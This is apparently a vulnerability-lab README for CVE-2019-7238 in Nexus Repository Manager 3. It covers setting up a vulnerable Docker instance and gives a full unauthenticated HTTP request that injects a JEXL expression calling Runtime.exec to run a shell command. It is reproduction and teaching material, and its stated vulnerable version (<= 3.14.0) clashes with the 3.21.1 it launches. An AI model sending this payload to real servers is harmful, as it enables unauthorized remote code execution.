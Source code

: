 # Nexus Repository Manager 3 Unauthenticated Remote Code Execution (CVE-2019-7238)

[中文版本(Chinese version)](README.zh-cn.md)

Nexus Repository Manager is a repository manager that organizes, stores and distributes artifacts needed for development.

In the version <= 3.14.0, insufficient access control and JEXL expression injection issue have been discovered in Nexus Repository 3 that allows for an unauthenticated attacker to execute arbitrary code by crafting a malicious request to Nexus Repository.

References:

- https://support.sonatype.com/hc/en-us/articles/360017310793-CVE-2019-7238-Nexus-Repository-Manager-3-Missing-Access-Controls-and-Remote-Code-Execution-February-5th-2019
- https://xz.aliyun.com/t/4136
- https://www.anquanke.com/post/id/171116
- http://commons.apache.org/proper/commons-jexl/

## Vulnerable environment

Execute following command to start a Nexus Repository Manager version 3.21.1:

```
docker compose up -d
```

After the server is started, browse `http://your-ip:8081` to see the home page of Nexus. Login the admin panel with account `admin:admin123` and finish the initialize wizard.

Then, upload a JAR package through maven-releases:

![](1.png)

To exploit this issue, Nexus Repository should have at least one package.

## Exploit

Send following request to execute `touch /tmp/success` command, no authentication needed:

```
POST /service/extdirect HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: */*
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 368
Connection: close

{"action":"coreui_Component","method":"previewAssets","data":[{"page":1,"start":0,"limit":50,"sort":[{"property":"name","direction":"ASC"}],"filter":
[{"property":"repositoryName","value":"*"},{"property":"expression","value":"233.class.forName('java.lang.Runtime').getRuntime().exec('touch /tmp/success')"},{"property":"type","value":"jexl"}]}],"type":"rpc","tid":8}
```

As you can see, `/tmp/success` is executed:

![](2.png)

The principle is that the JEXL expression in the expression position is executed, please refer to the documentation for details.

Use BCEL classloader to archive printable response:

![](3.png)
